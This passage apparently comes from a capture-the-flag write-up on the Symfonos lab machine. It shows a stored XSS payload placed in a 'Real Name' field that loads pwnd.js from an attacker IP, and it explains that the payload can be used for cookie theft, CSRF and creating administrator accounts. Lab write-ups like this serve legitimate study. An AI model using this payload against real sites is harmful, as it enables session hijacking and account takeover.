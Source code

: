 We modify the following in this way:

![](/assets/post/Symfonos/scriptxss.png)

```bash
"><script src="http://192.168.1.153/pwnd.js"></script>
```


**XSS Payload:**

- The malicious code placed by the attacker in the "Real Name" field is a `<script>` tag pointing to an external JavaScript file hosted at IP `192.168.1.153` named `pwnd.js`.
- When any user, including the system administrator, visits the page, this script executes within the browser's context, allowing the attacker to perform malicious actions such as stealing session cookies, making unauthorized requests (CSRF), or even creating administrator accounts remotely.

We verify this by checking if the administrator is active, and we received a response confirming it.


![](/assets/post/Symfonos/access.png)
